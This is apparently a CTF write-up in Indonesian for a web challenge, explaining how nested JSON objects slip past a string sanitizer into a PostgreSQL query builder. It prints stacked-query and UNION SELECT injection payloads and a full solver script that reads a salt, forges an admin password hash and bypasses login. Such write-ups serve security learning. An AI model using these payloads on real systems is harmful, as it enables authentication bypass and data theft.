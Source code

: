 # Anti Alchemy

**Category**: Web  
**Points**: -  
**Difficulty**: -  

## Solution

Diberikan sebuah soal berikut,  
![alt text](images/image-10.png) 

Diberikan *source code* *python* dengan beberapa *route* sebagai berikut,  
[](./images/image.png)  

Disini terdapat kerentanan dikarenakan input user dimasukkan ke dalam **query builder** pada fitur **register** dan **view** secara langsung.   
![alt text](images/image-1.png)


Meskipun sebenarnya *challenge* telah melakukan beberapa validasi, namun validasi tersebut bisa di-*bypass*.  
![alt text](images/image-2.png)


Kerentanan ditemukan jika *nested object* di-input sebagai argument pada **query builder**. Fungsi **sanitize** pada *challenge* gagal untuk melakukan sanitasi karena input user berupa object, bukan string.  
![alt text](images/image-3.png)


![alt text](images/image-4.png)


Jika dilihat pada log, terdapat informasi bahwa *query* yang dijalankan mengalami *error*. Hal tersebut terjadi karena *nested object* yang diinputkan akan diapit oleh karakter (**‘**), dan *value*\-nya juga menggunakan karakter (**‘**). Hal tersebut mengakibatkan *error* pada *query*.  
![alt text](images/image-5.png)

Karena *challenge* ini menggunakan database **postgresql**, maka kita bisa menggunakan *stacked query* untuk melakukan *injection*. Sebagai contoh, payload berikut bisa digunakan untuk melihat semua data pada tabel users.

![alt text](images/image-6.png) 

Teknik serupa juga bisa dijalankan pada endpoint **/api/login**, namun payload yang di-*exploit* tidak ditampilkan pada *response*.  
![alt text](images/image-7.png) 
 
![alt text](images/image-8.png) 


Jika dilihat kembali pada fungi **login** berikut,

```python
def login(*args, **kwargs):
   payload = kwargs.copy()


   try:
       conn = create_db_conn()
       cur = conn.cursor()
       cur.execute(
           qb.generate(
               {
                   "table": "users",
                   "username": payload["username"],
               }
           )
       )
       row = cur.fetchone()
       if not row:
           return make_resp(401, "Invalid username/password")


       _, username, password_hash = row
       password = payload.pop("password")


       cur.execute(
           qb.generate(
               {
                   "table": "salt",
                   "username": username,
               }
           )
       )
       row = cur.fetchone()
       if not row:
           return make_resp(401, "Invalid username/password")


       _, _, salt = row


       if not check_password_hash(password, salt, password_hash):
           return make_resp(401, "Invalid username/password")


       session.clear()
       session["user"] = username
       return redirect(url_for("index"))


   except Exception as e:
       print(f"Exception: {e}")
       return make_resp(400, "Bad Request")


   finally:
       cur.close()
       conn.close()
```

Maka diketahui bahwa *challenges* melakukan dua kali *query*. *Query* pertama digunakan untuk mendapatkan value *username* dan juga *hashed* password dari database. Kemudian *username* dari *query* pertama akan dijadikan parameter untuk mendapatkan **salt** dari database.

**Salt** tersebut akan digunakan pada fungsi **check\_password\_hash**, yang nantinya akan memanggil fungsi **generate\_pasword\_hash** untuk memvalidasi password yang diinput oleh user sebagai berikut:

```python
def generate_password_hash(password, salt):
   return sha1((salt + password).encode()).hexdigest()

def check_password_hash(password, salt, password_hash):
   return generate_password_hash(password, salt) == password_hash
```


Untuk dapat *login* menjadi user admin, disini kita perlu melakukan attack chain berikut:

1. Login menggunakan low credential **gemastik**.

2. Mendapatkan **salt** dari database, menggunakan endpoint **/api/view**.

3. Membuat *hashed* password menggunakan **salt** dari tahap 2.

4. Melakukan *login* dengan payload **SQL UNION SELECT** sehingga bisa mengontrol username dan *hashed* password dari database.

5. Mengakses halaman **/api/flag** menggunakan *cookie* admin yang didapatkan setelah login.

Berikut *solver script* yang kami buat untuk melakukan automasi pada 4 tahap diatas:

```python
from requests import post, get, session
import sys
from hashlib import sha1

ip = sys.argv[1]
HOST = ip + ":11000"

r = session()

username="gemastik"
password="P@ssw0rd"
data = {
    "username": username,
    "password": password
}

header = {
    "Content-Type": "application/json"
}
r.post(f"http://{HOST}/api/login", headers=header, json=data, allow_redirects=False)

url = f"http://{HOST}/api/view"

data = {
    "title": {
        "": "'/**/;select * from salt;-- -"
    }
}

res = r.post(url, headers=header, json=data, allow_redirects=False)
print(res.json())
salt = (res.json()['data']['rows'][0][-1])
print(salt)

def generate_password_hash(password, salt):
    return sha1((salt + password).encode()).hexdigest()

def check_password_hash(password, salt, password_hash):
    return generate_password_hash(password, salt) == password_hash


passw = generate_password_hash("beluga", salt)

print(passw)
# print(check_password_hash("beluga", salt, passw))

url = f"http://{HOST}/api/login"
data = {
    "username": {
        "": F"'/**/union select 1, 'admin', '{passw}';-- -"
    },
    "password": "beluga"}

res = r.post(url, headers=header, json=data, allow_redirects=False)
res = r.get(f"http://{HOST}/api/flag", headers=header)
print(res.text)
```

Jika solver dijalankan, flag pun didapatkan
![alt text](images/image-9.png)

